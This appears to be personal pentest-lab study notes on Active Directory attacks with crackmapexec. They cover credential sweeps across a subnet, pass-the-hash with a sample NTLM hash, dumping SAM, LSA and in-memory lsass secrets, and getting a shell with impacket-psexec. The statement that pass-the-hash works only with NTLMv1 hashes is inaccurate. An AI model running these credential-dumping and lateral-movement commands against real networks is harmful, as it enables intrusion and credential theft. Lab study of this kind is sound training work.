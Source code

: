 - Needed to install using `pimpmykali:
	- `git clone https://github.com/Dewalt-arch/pimpmykali`
	- `cd pimpmykali; sudo ./pimpmykali`
	- Choose option: `%` to install crackmapexec
	- Get help for smb using: `crackmapexec smb --help`

# Sweep the subnet using crackmapexec
---
- `crackmapexec smb 10.0.1.0/24 -u fcastle -d MARVEL.local -p Password1`
	- Domain `fcastle` user is present on both Punisher and Spiderman, therefore:
		- ![[Pasted image 20250329154733.png]]

# Pass the Hash attack using crackmapexec:
---
- Only works ==if hash is `NTLMv1`==
- `crackmapexec smb 10.0.1.0/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth`
	- ![[Pasted image 20250329155406.png]]
- **Dumping SAM hashes:**
- `crackmapexec smb 10.0.1.0/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --sam`
	- ![[Pasted image 20250329155628.png]]
- **Dumping LSA**
- ---
- `crackmapexec smb 10.0.1.0/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --lsa`

	![[Pasted image 20250329160225.png]]

- Some of the secrets are important:
	- `DCC2` : We can take these hashes and try to crack them.
	- These are the ==**stored credentials from which someone logged in past**==.
	- **Could be expired passwords.**

- **More stuff**
- ---
- `crackmapexec -L`
	- `gpp_password` , `impersonation`, `keepass_files`, `keepass_discover`
	- **`LSASSY`**
		- `crackmapexec smb 10.0.1.0/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth -M lsassy`
		- If there is any **==secret stored in memory of logged in users==**, we can see those.

# Psexec
---
- Very similar to `crackmapexec` **but better**
- Gain shell using:
	- `impacket-psexec administrator:'password'@ip_address`
# Stored Credentials using cmedb
---
- `cmedb`
- ![[Pasted image 20250329160550.png]]
- ![[Pasted image 20250329160559.png]]